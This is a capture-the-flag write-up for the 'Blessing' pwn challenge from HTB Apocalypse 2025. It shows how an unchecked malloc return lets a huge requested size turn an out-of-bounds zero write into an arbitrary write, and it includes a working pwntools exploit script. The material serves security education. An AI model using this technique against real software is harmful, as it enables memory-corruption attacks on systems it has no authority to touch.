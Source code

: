 ```yaml
---
title: Blessing
date: 2025-03-26T03:00:19+03:00
description: Writeup for Blessing [HTB Apocalypse 2025]
author: PineBel
tags:
- pwn
draft: false
---
```

___

## Challenge Description
In the realm of Eldoria, where warriors roam, the Dragon's Heart they seek, from bytes to byte's home. Through exploits and tricks, they boldly dare, to conquer Eldoria, with skill and flair.
## Intuition

We get a binary that does a malloc of 0x30000.
After the malloc it sets the first byte from that malloc to 1.
We also get the pointer from malloc as a leak.
To read the flag we need to overwrite the 1 to 0.

**Vulnerability**:  After the leak we need to give an input which will be used in another malloc. This means that we control the size of the malloc, we can also write content to it but in this case it doesn't matter since we have this vulnerability:
```
*(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0; ---> overflow of 7 bytes
```

## Solution

Initially I thought we should use a large enough malloc so that we mmap right before the first allocated chunk, but the closest I could get to the target chunk was 24 bytes because of alignment. So this doesn't seem like the solution.


```C
  my_malloc_ptr = malloc(my_malloc_len);
  ...
  *(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0;
```

Malloc's behaviour when given a really large value will fail and return NULL.
So what happens if I give a really large value?

```C
  my_malloc_ptr = malloc(LARGE);
  ...
  *(undefined8 *)((long)NULL+ (LARGE- 1)) = 0;
```

So basically if we make malloc return `NULL` we can write those 0s at `LARGE-1`.

So the solution would be to just:
1. Get the leak
2. Since the leak is large, we can give it to malloc which will cause it to fail and write to leak - 1.

Solve:
```py
from pwn import *


target = process("./blessing_1")

target.recvuntil(b'is: ')
leak = int(target.recv(14), 16)
target.sendlineafter(b'th: ', str(leak).encode())
target.sendlineafter(b'ng: ', b'x')

target.interactive()
```





